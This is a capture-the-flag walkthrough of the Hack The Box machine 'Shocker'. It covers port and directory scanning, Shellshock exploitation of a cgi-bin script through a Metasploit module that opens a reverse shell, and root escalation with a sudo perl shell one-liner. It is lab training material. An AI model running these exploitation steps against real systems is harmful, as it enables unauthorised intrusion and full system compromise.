 ```yaml
---
description: Walkthrough (Easy)
---
```


# Shocker 🟢🟢🟢

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.

[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)&#x20;

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.56 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Found http and ssh in 2222 port open.
* Lets try 1st for Directory busting.

### Directory Fuzzing

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/wordlists/SecLists/Discovery/Web-Content/common.txt
```
{% endcode %}

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

* Found intresting directory cgi-bin and searched about it in google about cgi-bin exploit

### Shellshock Remote Command Injection

Shellshock is a critical bug in Bash versions 1.0.3 - 4.3 that can enable an attacker to execute arbitrary commands.

Vulnerable versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

* Got to know that cgi-bin runs many bash scripts on web servers.&#x20;
* By using that scripts we can get a Reverse shell, so lets find find that bash script in cgi-bin

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .sh
```
{% endcode %}

```bash
/user.sh              (Status: 200) [Size: 118]
```

* Found user.sh script (cat)

```bash
Content-Type: text/plain

Just an uptime test script

 06:22:41 up  1:32,  0 users,  load average: 0.20, 0.06, 0.02
```

* This script is cheking the uptime of a linux machine.

### Metasploit

```bash
msfconsole
> search shellshock
> use multi/http/apache_mod_cgi_bash_env_exec
> set rhosts 10.10.10.56
> set lhost tun0
> set targeturi /cgi-bin/user.sh
> run
```

* Got a meterpreter Shell upgrade shell by typing `shell`
* `python3 -c 'import pty; pty.spawn("/bin/bash")'`    get fully tty shell
* You will find `user.txt` in `/home/shelly/user.txt`

### Previlage Esculation getting Root

`sudo -l`

```bash
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Found that user can run perl command without root password as a sudo user.

* Get to `gtfobins` and Found sudo for perl [here](https://gtfobins.github.io/gtfobins/perl/)

```bash
sudo perl -e 'exec "/bin/sh";'
```

* after running this command you get a root shell :)

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
